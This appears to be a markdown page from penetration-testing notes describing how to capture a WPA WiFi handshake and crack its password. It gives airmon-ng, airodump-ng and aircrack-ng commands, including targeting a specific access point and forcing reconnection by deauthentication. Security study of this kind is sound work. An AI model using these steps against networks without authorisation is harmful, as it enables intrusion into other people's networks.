

# Introduction
When connecting a device to a [WPA](../../Networking/Protocols/WLAN%20(802.11)/WiFi%20Protected%20Access%20(WPA).md) WiFi network, the device and the access point go through the process of a [4-way handshake](../../Networking/Protocols/WLAN%20(802.11)/Authentication%20&%20Association.md). During this time, the hash of the password is broadcasted and if we can capture this hash, we can also attempt to crack it.

# Capturing the Handshake
You will first need to put your adapter into [monitor mode](README.md):
```
sudo airmon-ng start <dev>
```


Next, you should listen for the available access points by using
```
sudo airodump-ng <dev>
```


Once you have identified the network you want to attack, you can make `airodump` specifically listening for it by providing a MAC address (`--bssid`) and a channel (`-c`). You will also want to write the capture to a file (`--write <filename>`), so that it may later be cracked with `aircrack-ng`:
```
sudo airodump-ng --bssid 50:D4:F7:95:CE:13 -c 11 --write PwnMe
```


Now, `airodump` is listening for the specified access point. Under the `STATION` tab, you can see all devices which are connected to the network. 

You now have to wait for someone new to connect to the target network or to reconnect in order to capture the handshake. If you are too impatient, however, there is a way to speed this process up. A [deauth attack](Deauth%20Attack.md) may be used, giving us the handshake:




The hash can now be cracked using `aircrack-ng`:
```
aircrack-ng <capture> -w <wordlist>
```


Boom! We successfully cracked the very difficult-to-guess password of... `password`.

Remember to stop your adapter's monitor mode or you will not be able to use it normally:


